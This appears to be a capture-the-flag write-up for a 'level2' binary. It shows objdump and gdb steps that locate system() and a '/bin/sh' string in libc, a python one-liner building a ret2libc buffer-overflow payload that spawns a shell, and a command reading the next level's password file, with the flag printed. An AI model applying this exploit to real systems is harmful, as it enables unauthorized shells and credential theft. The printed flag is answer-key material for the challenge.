 # level2

## disassemble

```shell
objdump -dC -M intel level2
```

## ret to libc

`system("/bin/sh")` : ret                 + system + "...." + "/bin/sh"
                      "0x804854f"         + ...
                      "\x4f\x85\x04\x08"  + ...

```shell
gdb level2
(gdb) break main
(gdb) run
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

`system("/bin/sh")` : ret                 + system              + "...." + "/bin/sh"
                      "0x804854f"         + "0xb7e6b060"        + "...." + ...
                      "\x4f\x85\x04\x08"  + "\x60\xb0\xe6\xb7"  + "...." + ...

```shell
(gdb) info proc map
process 3420
Mapped address spaces:
        Start Addr  End Addr    Size      Offset  objfile
        0xb7e2c000  0xb7fcf000  0x1a3000  0x0     /lib/i386-linux-gnu/libc-2.15.so

find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
  0xb7f8cc58
  1 pattern found.
```

`system("/bin/sh")` :   ret                 + system              + "...." + "/bin/sh"
                        "0x804854f"         + "0xb7e6b060"        + "...." + "0xb7f8cc58"
                        "\x4f\x85\x04\x08"  + "\x60\xb0\xe6\xb7"  + "...." + "\x58\xcc\xf8\xb7"


## exploit

```shell
python2.7 -c 'print("X"*80 + "\x4f\x85\x04\x08"  + "\x60\xb0\xe6\xb7"  + "...." + "\x58\xcc\xf8\xb7")' > /tmp/exploit.txt
cat /tmp/exploit.txt /dev/stdin | ./level2
```

## flag

```shell
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
exit
```